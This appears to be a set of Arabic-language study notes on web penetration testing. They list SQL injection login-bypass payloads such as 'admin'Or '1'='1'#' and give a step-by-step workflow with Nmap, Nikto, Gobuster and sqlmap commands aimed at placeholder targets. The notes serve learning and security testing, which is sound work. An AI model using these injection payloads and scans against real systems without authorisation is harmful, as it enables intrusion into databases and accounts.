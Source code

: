 ```sql
admin'Or '1'='1'#
```

او ده

```sql
admin'Or 1=1;
```

ملحوظه

 
لو عارف الusername يبقي اكتب الطريقه دي في ال password بس

### لو مش عارف اسامي ال user استخدم ال [[rpcclient]]


---
## 🚀 **خطوات عملية كاملة لـ Web Pentesting**

### 1️⃣ **جمع المعلومات (Reconnaissance)**

🔹 استخدم **Nmap** لمسح السيرفر:

```bash
nmap -sC -sV -oA scan_results 192.168.1.10
```

🔹 استخدم **[[WHOIS]], [[Sublist3r]], [[Google Dorks]] ** لجمع معلومات عن الموقع.

---

### 2️⃣ **فحص نقاط الضعف (Scanning & Enumeration)**

🔹 فحص الثغرات المعروفة باستخدام **[[Nikto]]**:

```bash
nikto -h http://target.com
```

🔹 جرب **[[Gobuster]]** للبحث عن الملفات المخفية:

```bash
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt
```

---

### 3️⃣ **تجربة الاختراق (Exploitation)**

🔹 **SQL Injection**:

- جرب إدخال `' OR '1'='1` في أماكن تسجيل الدخول
- استخدم **[[SQLmap]]** لفحص الثغرات:

```bash
sqlmap -u "http://target.com/login.php?id=1" --dbs
```
